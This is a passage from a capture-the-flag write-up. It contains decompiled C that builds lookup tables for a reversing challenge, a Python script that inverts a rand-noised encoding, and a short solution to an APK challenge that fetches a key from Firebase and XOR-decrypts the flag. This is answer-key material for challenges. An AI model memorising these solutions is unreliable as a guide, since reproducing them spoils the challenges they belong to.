__int64 type4_handler_2(unsigned __int64 a1)
{
  unsigned __int64 v1; // rcx
  unsigned __int64 v2; // rcx
  unsigned __int64 v3; // rcx
  unsigned __int64 v4; // rcx
  __int64 v5; // rax
  unsigned __int64 v6; // rcx
  unsigned __int64 v7; // rcx
  unsigned __int64 v8; // rdx
  unsigned __int64 v9; // rdx
  __int64 v10; // rcx
  __int64 v11; // rcx

  v1 = (8
      * ((unsigned __int8)((a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 18))) & 8 | (4 * ((unsigned __int8)((a1 >> 11) ^ BYTE1(a1) ^ (a1 >> 5) ^ a1 ^ (a1 >> 3)) ^ (unsigned __int8)(a1 >> 18))) & 4 | (2 * ((unsigned __int8)(BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19))) & 2 | (unsigned __int64)(((unsigned __int8)((a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ BYTE1(a1) ^ (a1 >> 7)) ^ BYTE2(a1)) & 1);
  v2 = (unsigned __int8)(((unsigned __int8)((a1 >> 18) ^ BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 19)) << 7) | (((unsigned __int8)((a1 >> 12) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 14)) << 6) & 0x40 | (32 * ((unsigned __int8)((a1 >> 15) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 5) ^ (a1 >> 4)) ^ (unsigned __int8)(a1 >> 18))) & 0x20 | (16 * ((unsigned __int8)(BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19))) & 0x10 | v1;
  v3 = (((unsigned __int16)(WORD1(a1) ^ (a1 >> 15) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 18)) << 11) & 0x800 | (((unsigned __int16)(WORD1(a1) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 10) & 0x400 | (((unsigned __int16)((a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 7) ^ a1 ^ (a1 >> 6)) ^ (unsigned __int16)(a1 >> 13)) << 9) & 0x200 | (((unsigned __int16)((a1 >> 18) ^ (a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 9) ^ (a1 >> 5) ^ (a1 >> 3) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 19)) << 8) & 0x100 | v2;
  v4 = (unsigned __int16)(((unsigned __int16)((a1 >> 14) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ WORD1(a1)) << 15) | (((unsigned __int16)((a1 >> 18) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 14) & 0x4000 | (((unsigned __int16)((a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 10) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 17)) << 13) & 0x2000 | (((unsigned __int16)((a1 >> 11) ^ (a1 >> 10) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 4) ^ a1 ^ (a1 >> 2)) ^ WORD1(a1)) << 12) & 0x1000 | v3;
  v5 = (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 19)) << 19) & 0x80000;
  v6 = v5 | (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 15)) << 18) & 0x40000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 19)) << 17) & 0x20000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 19)) << 16) & 0x10000 | v4;
  v7 = (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 22) & 0x400000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 19)) << 21) & 0x200000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 18)) << 20) & 0x100000 | v6;
  v8 = (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 25) & 0x2000000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 19)) << 24) & 0x1000000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 23) & 0x800000 | v7;
  v9 = (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 18)) << 28) & 0x10000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 27) & 0x8000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 26) & 0x4000000 | v8;
  v10 = (((a1 >> 17) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1) ^ (a1 >> 18)) << 32) & 0x100000000LL | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 31) | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 19)) << 30) & 0x40000000 | (((unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 17)) << 29) & 0x20000000 | v9;
  v11 = (((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 3) ^ (a1 >> 17)) << 37) & 0x2000000000LL | (((a1 >> 15) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1) ^ (a1 >> 17)) << 36) & 0x1000000000LL | (((a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1) ^ (a1 >> 16)) << 35) & 0x800000000LL | (((a1 >> 17) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 8) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 1) ^ (a1 >> 18)) << 34) & 0x400000000LL | (((a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 3) ^ (a1 >> 16)) << 33) & 0x200000000LL | v10;
  return (((a1 >> 18) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1) ^ (a1 >> 19)) << 38) & 0x4000000000LL | v11 | (((a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ a1 ^ (a1 >> 2) ^ (a1 >> 18)) << 39) & 0x8000000000LL;
}

#define MAX_BRUTE 0x100000

int main(int argc) {
    // Generate table

    puts("Generating tables...");
    int fd = open("type1_table.bin", O_CREAT | O_WRONLY, 0644);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    puts("[*] Generating type1 table [0x100000]");

    for (int i = 0; i < MAX_BRUTE; i++) {
        unsigned __int64 res = type1_handler_2(i);
        write(fd, &res, sizeof(res));
    }

    puts("[+] Done generating type1 table [0x100000]");

    close(fd);

    fd = open("type2_table.bin", O_CREAT | O_WRONLY, 0644);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    puts("[*] Generating type2 table [0x100000]");

    for (int i = 0; i < MAX_BRUTE; i++) {
        unsigned __int64 res = type2_handler_2(i);
        write(fd, &res, sizeof(res));
    }

    puts("[+] Done generating type2 table [0x100000]");

    close(fd);

    fd = open("type3_table.bin", O_CREAT | O_WRONLY, 0644);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    puts("[*] Generating type3 table [0x100000]");

    for (int i = 0; i < MAX_BRUTE; i++) {
        unsigned __int64 res = type3_handler_2(i);
        write(fd, &res, sizeof(res));
    }

    puts("[+] Done generating type3 table [0x100000]");

    close(fd);

    fd = open("type4_table.bin", O_CREAT | O_WRONLY, 0644);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    puts("[*] Generating type4 table [0x100000]");

    for (int i = 0; i < MAX_BRUTE; i++) {
        unsigned __int64 res = type4_handler_2(i);
        write(fd, &res, sizeof(res));
    }

    puts("[+] Done generating type4 table [0x100000]");


    close(fd);

    return 0;
}
```
* solve.py
```python
import struct
import ctypes
import itertools

# Load rand function

libc = ctypes.CDLL("libc.so.6")
rand = libc.rand
rand.restype = ctypes.c_int

table = []

def load_table():
    for i in range(4):
        with open(f'./type{i+1}_table.bin', 'rb') as f:
            result = f.read()
            result = list(struct.unpack('<'+'Q'*(len(result)//8), result))
            # convert to dict for faster search
            # Consider duplicate values
            
            dict_to_insert = {}
            for i, v in enumerate(result):
                if v not in dict_to_insert:
                    dict_to_insert[v] = [i]
                else:
                    dict_to_insert[v].append(i)
            
            table.append(dict_to_insert)
            

def remove_noise(data: int, rand_state: list):
    data = (1 << (rand_state[0] & 0x3F)) ^ data
    data = (1 << (rand_state[1] & 0x3F)) ^ data
    return data

def get_rand_status():
    result = []
    for i in range(8):
        result.append(rand())

    # Make combination
    combinations = list(itertools.combinations(result, 2))
    return combinations

def solve(data: bytes):
    f = open('./result4.bin', 'wb')
    result = b''
    
    for idx in range(0, len(data), 20):
        rand_state = get_rand_status()
        if (idx // 20) % 100 == 0:
            print(f"Processing block {idx//20} / {len(data)//20}")

        block_result = ''
        for i in range(4):
            part = data[idx+i*5:idx+i*5+5]
            part = struct.unpack('<Q', part.ljust(8, b'\x00'))[0]
            for j in range(len(rand_state)):
                work = remove_noise(part, rand_state[j]) & 0xFFFFFFFFFF
                try:
                    part_result = table[i][work][0]
                    break
                except:
                    continue
            else:
                print('wrong')
                exit(1)
            block_result = hex(part_result)[2:].rjust(5, '0') + block_result
        
        tmp = bytes(reversed(bytes.fromhex(block_result)))
        f.write(tmp)
        f.flush()


if __name__ == "__main__":
    import sys
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} [file]")
        sys.exit(1)

    with open(sys.argv[1], "rb") as f:
        data = f.read()
    
    load_table()

    assert len(list(filter(lambda v: v >= 0x10000000000, table[0].keys()))) == 0
    assert len(list(filter(lambda v: v >= 0x10000000000, table[1].keys()))) == 0
    assert len(list(filter(lambda v: v >= 0x10000000000, table[2].keys()))) == 0
    assert len(list(filter(lambda v: v >= 0x10000000000, table[3].keys()))) == 0

    solve(data)
```


## trends_notification (misc)

trends_notification is an apk reversing challenge. I used jadx tool to decompile to java code. 

After some investigation, I assumed that the apk tries to get key from https://enkictf-default-rtdb.firebaseio.com/trends/key and use it to encrypt flag.



The encryption logic is a simple xor operation(xorOperation) and addition of index to each chars(customOperation).



The interesting part is that we should remove 0xC2 on the encrypted string, as the encryption logic tries to cast string to bytes, and it seems c2 is prefixed to bytes over 128 when encoded to utf-8 bytes.

* solve.py
```python
from firebase import firebase 
firebase=firebase.FirebaseApplication('https://enkictf-default-rtdb.firebaseio.com',None)
result=firebase.get('/trends/key',None)
key = result

encrypted = bytes.fromhex("0f010a0c0c121e1166656763236c68636c69676a6e6a20247524797679717675752b7b7b787b7b7c327d7f88863e") # removed C2

print(encrypted)
decrypted = []

for i in range(0, len(encrypted)):
    print(hex(i), encrypted[i] - i, ((encrypted[i] - i) % 256), ord(key[i % len(key)]))
    decrypted.append(((encrypted[i] - (i)) % 256)  ^ ord(key[i % len(key)]))

print(bytes(decrypted))
```
